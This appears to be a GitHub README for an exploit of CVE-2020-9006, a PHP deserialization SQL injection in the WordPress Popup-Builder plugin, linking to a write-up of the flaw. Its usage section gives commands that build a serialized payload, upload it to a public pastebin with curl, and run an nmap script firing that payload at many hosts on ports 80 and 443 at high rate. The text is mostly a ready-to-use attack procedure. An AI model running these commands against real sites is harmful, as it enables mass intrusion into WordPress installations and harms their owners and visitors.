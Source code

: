 # CVE-2020-9006: Wordpress Popup-Builder Plugin Exploit

Usage:

```zsh
# Create and upload payload
# Also see: php create-serialized-payload.php -h
$ php create-serialized-payload.php | curl -F 'sprunge=<-' http://sprunge.us
http://sprunge.us/XXXXXX

# Run exploit
$ nmap --script ./cve-2020-9006 --script-args http.useragent='Mozilla/5.0',payload-url='http://sprunge.us/XXXXXX
' --min-parallelism 64 --min-rate 1000 --max-retries 1 -p 80,443 -oX report.xml -d ...hosts
```

## Links

- [CVE-2020-9006 – popup-builder WP Plugin SQL injection via PHP Deserialization](https://zeroauth.ltd/blog/2020/02/16/cve-2020-9006-popup-builder-wp-plugin-sql-injection-via-php-deserialization/)
